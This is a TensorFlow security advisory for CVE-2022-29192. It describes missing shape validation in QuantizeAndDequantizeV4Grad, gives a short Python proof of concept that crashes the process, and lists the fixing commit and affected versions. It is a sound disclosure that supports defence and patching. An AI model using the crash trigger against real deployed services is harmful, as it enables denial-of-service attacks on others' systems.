 ## TFSA-2022-062: Missing validation crashes `QuantizeAndDequantizeV4Grad`

### CVE Number
CVE-2022-29192

### Impact
The implementation of [`tf.raw_ops.QuantizeAndDequantizeV4Grad`](https://github.com/galeone/tensorflow/blob/f3b9bf4c3c0597563b289c0512e98d4ce81f886e/tensorflow/core/kernels/quantize_and_dequantize_op.cc#L148-L226) does not fully validate the input arguments. This results in a `CHECK`-failure which can be used to trigger a denial of service attack:

```python
import tensorflow as tf

tf.raw_ops.QuantizeAndDequantizeV4Grad(
  gradients=tf.constant(1, shape=[2,2], dtype=tf.float64),
  input=tf.constant(1, shape=[2,2], dtype=tf.float64),
  input_min=tf.constant([], shape=[0], dtype=tf.float64),
  input_max=tf.constant(-10, shape=[], dtype=tf.float64),
  axis=-1)
```

The code assumes `input_min` and `input_max` are scalars but there is no validation for this.

### Patches
We have patched the issue in GitHub commit [098e7762d909bac47ce1dbabe6dfd06294cb9d58](https://github.com/galeone/tensorflow/commit/098e7762d909bac47ce1dbabe6dfd06294cb9d58).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
